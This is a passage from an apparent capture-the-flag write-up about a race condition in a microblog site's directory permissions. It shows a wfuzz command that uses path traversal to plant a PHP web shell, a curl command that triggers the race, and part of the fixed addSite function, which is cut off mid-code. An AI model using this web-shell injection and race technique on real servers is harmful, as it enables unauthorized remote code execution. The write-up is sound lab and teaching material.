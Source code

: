 It makes `microblog` writable, and copies the template into that directory. Then it makes the `content` folder writable, but then steps up and sets the reset of the site not writable.

The issue is that there’s a race condition there. For a very short period of time, there’s a writable directory that will allow PHP to run.

#### Exploit

To exploit this, I’ll use `wfuzz` to send a lot of requests at once to write into a site that doesn’t exist:

```

oxdf@hacky$ wfuzz -u http://10.10.11.213/edit/ -H "Host: race.microblog.htb" -b 'username=rbb8bp6umb0logs0i3sqlcp5kc' -d 'id=../0xdf.php&txt=<?php+system($_REQUEST["cmd"]);+?>&oops=FUZZ' -w /opt/SecLists/Discovery/DNS/subdomains-top1million-20000.txt

```

I haven’t created `race.microblog.htb` yet, but that’s my `Host` header. It’s using my session cookie, and trying to write to the root of that site. I’ve added an `oops` parameter just to have something to `FUZZ` so `wfuzz` will send lots of requests at once. If I try something like `curl` here in a `while true` loop, it’s too slow.

Once I start this running, I’ll create the site. For example, with this `curl` command:

```

oxdf@hacky$ curl -v app.microblog.htb/dashboard/ -b username=rbb8bp6umb0logs0i3sqlcp5kc -d new-blog-name=race

```

While the site is being created, `wfuzz` is throwing *tons* of requests at it, and one is likely to land while the base directory for `race` is writable. Once the site is created, I’ll kill the `wfuzz` and check. The webshell is there:

![image-20230515180123056](/img/image-20230515180123056.png)

#### Fix

The code is fixed in the `addSite` function here:

```

function addSite($site_name) {                                                                           
    if(isset($_SESSION['username'])) {     
        //check if site already exists                                                                   
        $scan = glob('/var/www/microblog/*', GLOB_ONLYDIR);
        $taken_sites = array();                                                                                                                                                                                    
        foreach($scan as $site) {                                                                                                                                                                                  
            array_push($taken_sites, substr($site, strrpos($site, '/') + 1));
        }                                      
        if(in_array($site_name, $taken_sites)) {                                                         
            header("Location: /dashboard?message=Sorry, that site has already been taken&status=fail");
            exit;                       
        }                                                                                                
        $redis = new Redis();                                                                            
```